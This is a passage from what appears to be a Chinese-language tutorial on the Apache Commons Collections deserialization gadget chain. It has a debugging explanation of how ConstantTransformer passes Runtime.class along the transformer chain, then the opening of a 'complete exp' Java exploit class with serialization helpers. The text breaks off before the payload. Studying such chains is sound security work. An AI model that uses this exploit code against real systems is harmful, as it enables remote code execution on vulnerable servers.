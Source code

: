 我们动调一下。

[![](assets/1700127979-8354124dc7630ac83d53f85f72e135cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155043-d835fa2e-8454-1.png)

当我们第一次调用`iTransformers[i].transform(object);`时，会这些 ConstantTransformer 类的 transform 返回 iConstant（我们可以输入可控，这里来我们就输入 Runtime.class）然后`object = iTransformers[i].transform(object);`将 iConstant 赋值给 object 这样再次到`iTransformers[i].transform(object);`的时候就变成了`iTransformers[i].transform(Runtime.class);`

### 完整 exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
```